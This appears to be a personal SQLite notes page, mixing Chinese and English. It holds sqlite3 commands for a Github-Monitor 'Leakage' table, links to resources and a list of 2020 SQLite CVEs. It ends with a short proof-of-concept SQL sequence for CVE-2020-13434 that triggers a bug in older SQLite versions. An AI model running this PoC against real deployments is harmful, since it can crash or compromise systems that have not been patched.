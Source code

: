 # sqlite

```bash
apt install sqlite
cd /srv/Github-Monitor/server
sudo sqlite3 github.db
.table
.schema
.schema Leakage

select * from Leakage limit 1;
select count(*) from Leakage ;
select count(*) from Leakage where keyword = 'xxx';
delete from Leakage where keyword = 'xxx';
delete from Leakage where keyword = 'xxx.cn';
```

Instantly generate REST & GraphQL APIs on any Database (Supports : MySQL, PostgreSQL, MsSQL, SQLite, MariaDB) https://xgenecloud.com| 这种东西好像也没有什么卵用
https://github.com/xgenecloud/xgenecloud

http://www.nsfocus.net/vulndb/46788
SQLite ext/fts3/fts3.c释放后重利用漏洞（CVE-2020-13630）

SQLite alter.c/build.c未授权信息修改漏洞（CVE-2020-13631）
http://www.nsfocus.net/vulndb/46787

SQLite ext/fts3/fts3_snippet.c空指针间接引用漏洞（CVE-2020-13632）
http://www.nsfocus.net/vulndb/46786

写个数据库:
Writing a sqlite clone from scratch in C
https://github.com/cstack/db_tutorial

[Docker中SQlite的配置和挂载](https://juejin.im/post/6844903623789379598)


## 安全漏洞

[SQLite 输入验证错误漏洞](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202005-1159)
> SQLite 3.32.0及之前版本中的printf.c文件的sqlite3_str_vappendf存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。
> http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202005-1160
> SQLite 3.32.0及之前版本中的expr.c文件的sqlite3ExprCodeTarget存在安全漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。
> POC: https://www.sqlite.org/src/info/23439ea582241138

```bash
sqlite3 CVE-2020-13434.db
CREATE TABLE a(b DOUBLE CHECK( NOT CASE WHEN printf(b, b) THEN 0 END) UNIQUE ON CONFLICT REPLACE);
CREATE TRIGGER c INSERT ON a BEGIN INSERT INTO a SELECT group_concat(b, 2147483647) FROM a;END;
INSERT INTO a(b, b, b) VALUES(NULL, 9, 3);
UPDATE a SET b = 0;
INSERT INTO a VALUES('GERMANY''s%'), ('Y'), ('Brand#23')
```

